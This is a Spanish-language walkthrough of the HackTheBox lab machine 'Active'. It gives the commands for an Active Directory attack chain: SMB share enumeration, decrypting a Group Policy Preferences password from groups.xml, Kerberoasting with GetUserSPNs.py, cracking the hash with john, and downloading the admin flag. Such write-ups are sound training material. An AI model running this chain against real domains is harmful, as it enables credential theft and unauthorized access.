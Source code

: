  

```markdown
# Máquina "Active" de HackTheBox

## Características

- Windows
- Kerberoasting  
- Active Directory
- Dificultad: Easy
- Internal
- Domain Reconnaissance
- SMB
- Penetration Tester Level 1
- Default Credentials
- CVE-2014-1812
- Kerberos
- Public Vulnerabilities
- Anonymous/Guest Access
- User Enumeration  
- Weak Permissions
- Authentication
- CVE Exploitation  
- Password Cracking

## Util para

- OSCP
- OSEP  
- Active Directory

## Reconocimiento

**IP objetivo:** `10.10.10.100`

### Escaneo inicial

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPort
```

### Escaneo detallado

```bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49169 10.10.10.100 -oN targeted
```

### Identificación del dominio

```bash
crackmapexec smb 10.10.10.100
```

![Identificación del dominio](/secciones/posts/imagenes/active/smb1.png)

## Enumeración SMB

### Listar recursos

```bash
smbclient -L 10.10.10.100 -N
```

### Verificación de permisos

```bash
smbmap -H 10.10.10.100
```

### Exploración del directorio

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/
```

**Salida:**
```
dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
dr--r--r--                0 Sat Jul 21 06:37:44 2018    DfsrPrivate
dr--r--r--                0 Sat Jul 21 06:37:44 2018    Policies  
dr--r--r--                0 Sat Jul 21 06:37:44 2018    scripts
```

### Descubrimiento de credenciales

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{GUID}/MACHINE/Preferences/Groups/groups.xml
```

![Archivo groups.xml](/secciones/posts/imagenes/active/xml.png)

### Desencriptación

```bash
gpp-decrypt 'clave_encriptada'
```

### Validación de credenciales

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'clave_desencriptada'
```

## Explotación

### Enumeración de grupos

```bash
rpcclient -U "SVC_TGS%clave" 10.10.10.100 -c 'enumdomgroups'
```

![Enumeración de grupos](/secciones/posts/imagenes/active/enum.png)

### Ataque Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:clave -request
```

### Crackeo de hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Post-explotación

### Obtención de flags

```bash
smbmap -H 10.10.10.100 -u 'Administrator' -p 'clave_admin' --download Users/Administrator/Desktop/root.txt
```

 